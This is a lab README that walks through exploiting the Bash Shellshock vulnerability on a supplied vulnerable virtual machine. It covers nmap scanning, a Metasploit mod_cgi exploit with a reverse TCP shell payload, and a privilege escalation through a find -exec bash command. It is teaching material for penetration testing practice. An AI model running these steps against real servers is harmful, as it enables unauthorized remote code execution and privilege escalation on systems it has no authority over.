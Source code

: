 # Shellshock

This repository describes how to exploit the Bash Shellshock vulnerability. 

## Topics
- [Background](#background)
- [Use Case](#use-case)
- [Prerequisites](#prerequisites)
- [Usage](#usage)
  - [Scan the Network](#scan-the-network)
  - [Attack the Program](#attack-the-program)
  - [Create a Reverse Shell](#create-a-reverse-shell)
  - [Escalate Privileges](#escalate-privileges)
- [Resources](#resources)

## Background

Shellshock is a GNU Bash vulnerability that was discovered in 2014. The Shellshock vulnerabililty can affect numerous systems and attack vectors. GNU Bash through version 4.3 processes trailing strings after function definitions in environment variable values. This allows attackers to execute arbitrary code by using those external variables. The Shellshock vulnerability affects multiple vectors including the mod_cgi and mod_cgid methods of the Apache HTTP server that display dynamic content on web pages and applications. The Shellshock exploit can be launched either remotely or from a local machine.

## Use Case

The Shellshock vulnerability should only be exploited in a research environment. Running the Shellshock exploit enables researchers to become better acquainted with common vulnerabilities that should be remediated. Exploiting the Shellshock vulnerability in a research environment can help users become acquainted with penetration testing tools and methods.

## Prerequisites

Shellshock exploitation requires a vulnerable machine. A vulnerable Shellshock virtual machine called `shellshock_server.ova` can be [downloaded here](https://gtvault-my.sharepoint.com/:u:/g/personal/rheavican3_gatech_edu/EVihwYFaVDlChicYIgfXPHIBMLW_kOUUO8sTaJ7b8JLw2A?e=jIvhZ6). The password for `shellshock_server.ova` is `77t*#bT8sd`. The `shellshock_server.ova` virtual machine should be run in hypervisor that runs Open Virtualization Format files, such as VirtualBox.

An instance of Kali linux is required to exploit the vulnerable `shellshock_server.ova` virtual machine. The latest Kali image can be downloaded at the [official Kali download page](https://www.kali.org/get-kali/). The Kali virtual machine should be deployed on the same virtual network as `shellshock_server.ova`. 

## Usage

Perform the following tasks to exploit the Shellshock vulnerability in `shellshock_server.ova`:

### Scan the Network

The IP address of the vulnerable virtual machine must be identified to exploit the Shellshock vulnerability. Use `ifconfig -a` in a Kali terminal to identify the virtual network.

Scan the virtual network to identify the vulnerable server. Kali linux includes the Nmap open-source network discovery tool. Run the following command in a Kali terminal to scan the virtual network for hosts: Replace `$Subnet` with the network acquired through `ifconfig -a`.

```
nmap scan $Subnet
```

Run the following command in a Kali terminal to identify all open ports of the vulnerable host. Replace `$IPAddress` with the host IP address found in the previous Nmap scan:

```
nmap -p- $IPAddress
```

Use CURL to connect to any open HTTP ports identified by Nmap to determine if they are vulnerable to Shellshock. Replace `$IPAddress` and `$Port` with the IP address and open HTTP port identified by Nmap:

```
curl http:// <$IPAddress>:<$Port>/cgi-bin/shellshock.cgi
```

The server is vulnerable to Shellshock if the content of the URL is returned in the terminal. The returned URL will be used to attack the vulnerable CGI program.

### Attack the Program

Use the Metasploit framework included in Kali to exploit the vulnerable Shellshock server identifed using Nmap. Type `msfconsole` in a Kali terminal to launch the Metasploit framework.

Metasploit's primary components consist of exploit modules and exploit payloads. Metasploit modules are written to exploit specific vulnerabilities. Metasploit payloads are the packets that are sent within the exploit. 

Use the Apache mod_cgi Bash Environment Variable Code Injection Metasploit module to exploit the vulnerable server identified in Nmap. This module sets the `HTTP_User_Agent` environment variable to a malicious function definition to exploit the mod_cgi script on the Apache web server. Run the following commands in metasploit to run the module:

```
use exploit/multi/http/apache_mod_cgi_bash_env_exec
```

Specify the remote host to be exploited in the Metasploit module by running the following command. Replace `#IPAddress` with the IP address of the vulnerable server identified using Nmap.

```
set rhost #IPAddress
```

Specify the URL of the vulnerable target CGI program with the following command:

```
set targeturi /cgi-bin/shellshock.cgi
```

### Create a Reverse Shell

Now the payload needs to be used to exploit the vulnerable Shellshock server. Use `show payloads` to show the possible payloads for the current mod_cgi bash injnection module. Use the `linux/x86/shell/reverse_tcp` reverse shell exploit by running the following commands:

```
set payload linux/x86/shell/reverse_tcp
check
exploit
```

This will create a reverse shell session on the vulnerable server. 

### Escalate Privileges

The `shellshock_server.ova` virtual machine is vulnerable to privilege escalation in addition to its Shellshock vulnerability. Use `/bin/bash -i` to create an interactive Bash session on the reverse shell session. Then use the `whoami` command to identify the user account running the reverse shell session. `whoami` will show the user running the reverse shell as `www-data`.

Navigate to `/usr/bin` and run `ls -la` to identify any programs that use permissions for users other than `www-data`. `ls -la` will show that the `find` program has user privileges for the user `shellshock_server`. Launch a Bash session with the privileges of the `shellshock_server` user by running the following command:

```
find /usr/bin/ -name find -exec /bin/bash -ip \;
```

Use the `whoami` command to confirm that privileges for the Bash session have been escalated to the user `shellshock_server`.

## Resources
- [Kali Download Page](https://www.kali.org/get-kali/)
- [Vulnerable Virtual Machine]((https://gtvault-my.sharepoint.com/:u:/g/personal/rheavican3_gatech_edu/EVihwYFaVDlChicYIgfXPHIBMLW_kOUUO8sTaJ7b8JLw2A?e=jIvhZ6)
- [Shellshock CVE](https://nvd.nist.gov/vuln/detail/cve-2014-6271)
- [Shellshock Exploitation](https://www.infosecarticles.com/exploiting-shellshock-vulnerability/)
- [Metasploit Shellshock Exploitation](https://null-byte.wonderhowto.com/how-to/exploit-shellshock-web-server-using-metasploit-0186084/)
- [Metasploit Exploit for Apache mod_cgi Bash Environment Variable Code Injection](https://www.rapid7.com/db/modules/exploit/multi/http/apache_mod_cgi_bash_env_exec/)
- [Shell Spawning](https://rcenetsec.com/shell-spawning/)
- [Privilege Escalation](https://tbhaxor.com/exploiting-suid-binaries-to-get-root-user-shell/)
